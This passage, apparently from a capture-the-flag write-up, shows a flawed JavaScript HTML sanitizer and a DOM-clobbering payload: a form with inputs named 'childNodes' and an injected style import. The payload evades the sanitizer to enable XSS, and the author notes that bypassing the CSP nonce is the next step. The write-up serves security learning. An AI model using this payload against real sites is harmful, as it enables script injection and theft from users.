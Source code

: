 ```javascript
                    console.log("Attribute Name: ", attrName, allowedElements.allowedAttributes[attrName]);
                    if (!allowedElements.allowedAttributes[attrName]) {
                        currentNode.removeAttribute(attrName);
                    }
                }

                var childCount = childNodesList.length;
                var childIndex = 0;
                var nodesToCheck = [];

                for (childIndex = 0; childIndex < childCount; childIndex++) {
                    nodesToCheck.push(childNodesList[childIndex]);
                }

                for (childIndex = 0; childIndex < nodesToCheck.length; childIndex++) {
                    purifyNode(nodesToCheck[childIndex]);
                }
            }

            function HTMLSanitizer(rawHTMLString) {
                var parser = new DOMParser();
                var parsedDoc = parser.parseFromString(rawHTMLString, "text/html");

                purifyNode(parsedDoc.body);
                console.log("Parsed Doc: ", parsedDoc.body.innerHTML);
                return parsedDoc.body.innerHTML;
            }

            return HTMLSanitizer(html);
        }
        document.location.hash = "";
        let note = document.getElementById('note')

        window.onhashchange = () => {
            if (document.location.hash){
                note.innerHTML = sanitize(decodeURIComponent(document.location.hash.slice(1)));
            }
            document.location.hash = "";
        };
```

Reference from here <https://www.fastmail.com/blog/sanitising-html-the-dom-clobbering-issue/> we can exploit this behaiour by inputing the following string:

```html
<form><input name="childNodes"><input name="childNodes"><style>@import url(${origin}/static/css/first.css);</style></form>
```

In this case, the style or whatever is inside the form will not get sanitized, allowing us to inject HTML and execute XSS. However, due to the CSP that includes a nonce in the meta tag, we cannot directly execute the XSS. To bypass the CSP, we need to obtain the nonce.
